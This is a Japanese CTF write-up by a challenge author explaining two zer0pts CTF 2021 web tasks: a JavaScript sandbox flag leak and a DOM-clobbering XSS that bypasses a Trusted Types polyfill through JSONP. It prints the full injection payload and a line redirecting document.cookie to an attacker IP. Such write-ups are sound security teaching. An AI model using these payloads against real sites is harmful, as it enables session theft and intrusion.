






(English version: [Kantan Calc](https://hackmd.io/@st98/Sy7D5NymO), [Simple Blog](https://hackmd.io/@st98/S1z9qV1X_))

3 月 6 日から 3 月 7 日にかけて、チーム zer0pts は [zer0pts CTF 2021](https://ctftime.org/event/1256) を開催しました。登録チーム数は 1447 チーム、50 点以上得点したチームは 951 チームと大変多くの方にご参加いただきました。ありがとうございました。

1 位は 5211 点を獲得した Super Guesser、2 位は 5153 点を獲得した K-Students、3 位は 5153 点を獲得した r00timentary でした。おめでとうございます🎉

この記事では、出題された 30 問のうち私が作問した以下の 2 問について解説します。

- [[Web 135] Kantan Calc (50 solves)](#web-135-kantan-calc-50-solves)
- [[Web 192] Simple Blog (23 solves)](#web-192-simple-blog-23-solves)

## [Web 135] Kantan Calc (50 solves)
> "Kantan" means simple or easy in Japanese.
> 
> (URL)
> 
> 添付ファイル: [kantan_calc_534d6763ad47ad2dadb6f6eef0e47404.tar.gz](../files/kantan_calc_534d6763ad47ad2dadb6f6eef0e47404.tar.gz)

以下のようなソースコードが与えられています。`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()` というコードにユーザ入力が展開され、`vm.runInNewContext` によってサンドボックス内で実行されるという Web アプリケーションです。

フラグはコードが挿入される関数内のコメントに含まれています。ということで、なんとかしてフラグがコメントとして含まれている関数を文字列化して取り出すのが目標になります。挿入できるコードは 29 文字以内と短いので、JavaScript の文法を使いながらコードを縮めていきましょう。

```javascript
const express = require('express');
const path = require('path');
const vm = require('vm');
const FLAG = require('./flag');

const app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.static(path.join(__dirname, 'public')));

app.get('/', function (req, res, next) {
  let output = '';
  const code = req.query.code + '';

  if (code && code.length < 30) {
    try {
      const result = vm.runInNewContext(`'use strict'; (function () { return ${code}; /* ${FLAG} */ })()`, Object.create(null), { timeout: 100 });
      output = result + '';
      if (output.includes('zer0pts')) {
        output = 'Error: please do not exfiltrate the flag';
      }
    } catch (e) {
      output = 'Error: error occurred';
    }
  } else {
    output = 'Error: invalid code';
  }

  res.render('index', { title: 'Kantan Calc', output });
});

app.get('/source', function (req, res) {
  res.sendFile(path.join(__dirname, 'app.js'));
});

module.exports = app;
```

### 関数を分ける
まず、どうやってフラグが含まれている関数にアクセスすればよいでしょうか。普通なら関数内では `arguments.callee` で関数自身にアクセスすることができますが、残念ながらこの問題では `'use strict'` によって strict モードが有効化されており、利用できません。

ではどうするかというと、以下のように関数を分けます。フラグが含まれている関数が前に位置する関数の引数として渡され、`arguments[0]` でアクセスすることができます。

```javascript
'use strict'; (function () { return arguments[0] })(function () {; /* ${FLAG} */ })()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                           (inserted code)
```

### コードゴルフ
JavaScript の機能を使ってこのコードをちょっとずつ縮めていきましょう。

1: アロー関数を使うと、`function () {}` という記法を使うよりも短くなります。

```javascript
'use strict'; (function () { return () => arguments[0]})(() => {; /* ${FLAG} */ })()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                          (inserted code)
```

2: アロー関数は引数を持たない場合には `() => {}` というように `()` を記述する必要があります。ただ、JavaScript では仮引数と実引数の数が違っていても、それだけではエラーにはなりませんから、適当な引数を持たせてやると少し短くできます。

```javascript
'use strict'; (function () { return a => arguments[0]})(b => {; /* ${FLAG} */ })()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^
                                          (inserted code)
```

3: スペースを取り除きましょう。

```javascript
'use strict'; (function () { return a=>arguments[0]})(b=>{; /* ${FLAG} */ })()
                                    ^^^^^^^^^^^^^^^^^^^^^^
                                        (inserted code)
```

できあがったコードの `a=>arguments[0]})(b=>{` を投げてやると… `please do not exfiltrate the flag` と怒られてしまいました。



ソースコードを読むとその理由がわかります。先ほどのコードでフラグが含まれる関数を `vm.runInNewContext` の返り値にすることができました。しかしながら、文字列化されたこの関数には `zer0pts` が含まれるので、以下の処理で弾かれてしまいます。バイパスする方法を考えていきましょう。

```javascript
      if (output.includes('zer0pts')) {
        output = 'Error: please do not exfiltrate the flag';
      }
```

### 返り値のチェックをバイパスする
返り値のチェックをごまかす方法はいくつか考えられます。例えば `String.prototype.replace` やら `String.prototype.slice` といった関数で文字列が `zer0pts` を含まないようにする (29 文字に収まるかは知りませんが…)、文字列化した関数を `str[i]` といった感じでブラケットを使って 1 文字ずつ抽出するといった方法がありますが、今回は文字列を配列に変換する方法を使いましょう。

[スプレッド構文](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Operators/Spread_syntax)を使うと、以下のように文字列を 1 文字ずつ分割された配列に変換することができます。

```javascript
[...'abc'] // => ["a", "b", "c"]
```

配列を文字列に変換すると、以下のように要素がコンマ区切りで結合されます。

```javascript
["a", "b", "c"] + '' // => "a,b,c"
```

これらの挙動を利用して、以下のようなコードでフラグを抽出することができるはずです。

```javascript
'use strict'; (function () { return a=>[...arguments[0]+0]})(b=>{; /* ${FLAG} */ })()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                           (inserted code)
```

やってみましょう。


フラグが得られました。

```
zer0pts{K4nt4n_m34ns_4dm1r4t1on_1n_J4p4n3s3}
```

---

これだけのチームに解かれるとは思っていませんでした。Harekaze CTF 2019 の [[Misc 200] [a-z().]](2019-05-21-harekaze-ctf-2019.html#misc-200-a-z)、Harekaze mini CTF 2020 の [[Misc 322] Proxy Sandbox](2020-12-29-harekaze-mini-ctf-2020.html#misc-322-proxy-sandbox-7-solves) に引き続いて、JavaScript で遊ぶ問題でした。こういう問題はたぶんもう出さないと思います。たぶん。

問題のリリース直後は `vm.runInNewContext` の第二引数として与えている `Object.create(null)` を `{}` としており、Prototype Pollution を起こしてサンドボックス外に影響を与えられるようになっていました。`__proto__.a = 'abc'` というような入力を与えると、以下のように (なぜか) テンプレートのレンダリング時にエラーが発生するようになります。これが原因でしばらく問題が利用できない状態になっていました。すみません。

```
Error: /app/views/index.pug:8:32
    6|   a(href='/source') source
    7|   h2 Code
  > 8|   form(action='/', method='get')
--------------------------------------^
    9|     input(type='text', name='code', size=40, placeholder='7*7', maxlength=29)
    10|     input(type='submit', value='submit')
    11|   h2 Output

Mismatched Bracket: )
```

## [Web 192] Simple Blog (23 solves)
> Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
> 
> (URL)
> 
> 添付ファイル: [simple_blog_1802a68a066b0286632ecb1713377283.tar.gz](../files/simple_blog_1802a68a066b0286632ecb1713377283.tar.gz)

ブログサービスです。自明な XSS があるけど、Content Security Policy (CSP) と Trusted Types というセキュリティ機構を導入しているから、Firefox を含むモダンなブラウザでは脆弱性を悪用できないだろうと主張しています。本当にそうでしょうか。

### ソースコードを読む
添付されているソースコードを見ていきましょう。この Web アプリケーションは `index.php` と `api.php` に主な処理があります。`api.php` は `index.php` から呼び出される JSONP エンドポイントで、コールバック関数の名前は 20 文字以下に制限されています。

```php
<?php
header('Content-Type: application/javascript');
$callback = $_GET['callback'] ?? 'render';
if (strlen($callback) > 20) {
  die('throw new Error("callback name is too long")');
}
echo $callback . '(' . json_encode([
  ["id" => 1, "title" => "Hello, world!", "content" => "Welcome to my blog platform!"],
  ["id" => 2, "title" => "Lorem ipsum", "content" => "Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."]
]) . ')';
```

問題文に書かれているように、`theme` という GET パラメータ由来の Reflected XSS が存在しています。

```php
<?php
$nonce = base64_encode(random_bytes(20));
$theme = $_GET['theme'] ?? 'dark';
?>
```

```html
    <link rel="stylesheet" href="/css/bootstrap-<?= $theme ?>.min.css">
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-<?= $theme ?> bg-<?= $theme ?>">
```

一方で、問題文に書かれているように CSP と Trusted Types によって Web アプリケーションを堅牢にしようとしています。CSP は nonce を属性に持つ `script` 要素から読み込まれる (`'nonce-<?= $nonce ?>'`) か、すでに実行を許可された JavaScript コードから読み込まれた (`'strict-dynamic'`)  JavaScript コードしか実行できないようにされています。

```html
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-<?= $nonce ?>' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
```

`'strict-dynamic'` が付与されているのは JSONP のためでしょう。

```javascript
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };
```

Trusted Types を使って `innerHTML` などの利用時に `<` や `>` を削除するほか、`callback` という文字列を含む URL を JavaScript コードとして読み込むことを禁止しています。後者は JSONP の実行時に `render` 以外のコールバック関数を実行させることを防ぐためでしょう。

```javascript
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }
```

問題文や admin への報告ページ (報告された URL に bot がアクセスしに行く) に書かれているように、admin は Firefox を使って URL にアクセスします。`index.php` では Trusted Types の [polyfill](https://github.com/w3c/webappsec-trusted-types) が読み込まれていますが、これは Firefox が Trusted Types をネイティブにサポートしていないためでしょう。

```html
    <script src="/js/trustedtypes.build.js" nonce="<?= $nonce ?>" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
```

### Trusted Types を潰す
まずやるべきことは、JSONP で `callback` を使うために Trusted Types を潰すことです。

ソースコードを読んだ際に確認したように、admin の環境では Firefox が使われています。Firefox では Trusted Types はネイティブにサポートされていませんから、読み込まれている polyfill が使われます。

polyfill の実装を見ていくと、これは [`window.trustedTypes` が truthy である場合に Web ブラウザが Trusted Types をサポートしていると判断している](https://github.com/w3c/webappsec-trusted-types/blob/1404e198bcf8e0c06a0ab00b75081b3fafb37bed/src/polyfill/api_only.js#L30-L39)ことがわかります。

```javascript
  const rootProperty = 'trustedTypes';

  // Convert old window.TrustedTypes to window.trustedTypes.
  if (window['TrustedTypes'] && typeof window[rootProperty] === 'undefined') {
    window[rootProperty] = Object.freeze(window['TrustedTypes']);
  }

  if (typeof window[rootProperty] !== 'undefined') {
    return;
  }
```

つまり、なんとかして `window.trustedTypes` にアクセスすると truthy な値が返ってくるようにすれば、admin の環境においても Trusted Types を無効化することができるはずです。しかし、JavaScript なしにどうすればよいでしょうか。その方法のひとつに、[DOM Clobbering](https://diary.shift-js.info/dom-clobbering/) があります。

DOM Clobbering は、HTML の `id` 要素などを利用することで未初期化のグローバル変数に HTML の要素を入れることができるテクニックです。これを使うと、例えば以下のようなペイロードで `window.trustedTypes` を truthy な値 (`HTMLElement` オブジェクト) にすることができます。

```html
"><s id="trustedTypes">test</s>
```

問題サーバで試してみると、確かに `window.trustedTypes` に `HTMLElement` オブジェクトが入っていることが確認できました。



しかし、以下のようなエラーメッセージが出てしまっています。



`index.php` のソースコードを見ると、`trustedTypes.defaultPolicy` が truthy でない場合 (Trusted Types がデフォルトポリシーの作成に失敗した場合) にこのようなエラーが発生することがわかります。

```javascript
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
```

このようにプロパティへのアクセスがされている場合でも、[DOM Clobbering](https://portswigger.net/research/dom-clobbering-strikes-back) で truthy な値を設定することができます。

Firefox では、以下のようなペイロードで `trustedTypes` と `trustedTypes.defaultPolicy` のいずれも truthy な値にすることができます。

```html
"><form id="trustedTypes"><input id="defaultPolicy"></form>
```

問題サーバで試してみると、エラーメッセージが表示されず、今度こそ Trusted Types を無効化することができたことがわかります。



### JSONP を悪用する
次にやるべきことは、問題ページ上での任意コードの実行を可能にすることです。

`index.php` のソースコードを見ると、Trusted Types 周りの設定をしてから JSONP が呼び出されていることがわかります。`jsonp` 関数には `window.callback` が第二引数として与えられていますが、これはどこにも定義されていません。DOM Clobbering によって値を上書きすることができます。

```javascript
      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
```

この第二引数は以下のようにテンプレート文字列に展開され、その文字列は `script` 要素の `src` 属性に代入されて読み込まれ、実行されます。DOM Clobbering で上書きされた値は `HTMLElement` オブジェクトですが、ここで文字列に変換されます。なんとかして任意の文字列に変換されるようにできないでしょうか。

```javascript
      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
```

ひとつの方法は、`a` 要素を使うことです。`a` 要素に対応する `HTMLAnchorElement` オブジェクトは、以下のように文字列化するとその [`a` 要素の `href` 属性の URL を返します](https://developer.mozilla.org/ja/docs/Web/API/HTMLAnchorElement/toString)。



以下のように `abc` のような適当なスキームの URL を `href` 属性に設定してやると、文字列化される際に JavaScript コードとしても解釈できる文字列に変換させることができます。

```html
<a href="abc:test" id="link">hoge</a>
<script>
console.log(link + ''); // => abc:test
</script>
```

これを使えば、`callback` に好きな JavaScript コードを仕込んで実行させることができます。しかし、`api.php` のソースコードを読んで確認したように、`callback` は最大で 20 文字です。なんとかしてもっと長い JavaScript コードを実行させることはできないでしょうか。

これもやはり、DOM Clobbering でバイパスできます。`callback` の値を操作したときと同じように、文字列化すると `data:text/plain;base64,(Base64 encoded script)` というように `data` スキームの JavaScript コードを返すような `a` 要素を仕込んでおきます。

この状態で `callback` に `abc:jsonp(x);//` というように `jsonp` 関数を呼び出す JavaScript コードを仕込んでおくと、`data` スキームの URL が読み込まれ、JavaScript コードとして実行されます。

これまでの成果をまとめると以下のようなペイロードができあがります。これを使えば好きな JavaScript コードを実行させることができます。

```html
"><form id="trustedTypes"><input name="defaultPolicy"></form><a href="abc:jsonp(x);//" id="callback"></a><a href="data:text/plain;base64,(Base64 encoded script)" id="x"></a>
```

`location="http://(your IP address)?"+encodeURIComponent(document.cookie)` という JavaScript コードを実行するペイロードを仕込んで bot に報告すると、以下のようにフラグが得られました。



```
zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}
```

---

> zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}

そうでもないです。

Firefox が Trusted Types をまだサポートしていないと知って、なにかに使えないかなーと思って作ったのがこの問題でした。特定の Web ブラウザでしか解けない問題を作ってみたかったという理由もあります。